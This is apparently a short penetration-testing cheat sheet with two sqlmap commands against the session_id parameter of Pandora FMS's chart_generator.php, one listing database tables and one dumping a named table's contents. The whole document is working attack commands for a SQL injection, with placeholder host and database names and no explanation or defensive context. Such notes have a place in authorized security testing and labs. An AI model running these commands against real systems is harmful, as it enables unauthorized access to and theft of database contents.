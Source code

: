 # SQLmap

List tables

```
sqlmap --url="http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id=''" -D database_name --tables
```

Dump table contents

```
sqlmap --url="http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id=''" -D database_name -t table_name --dump
```


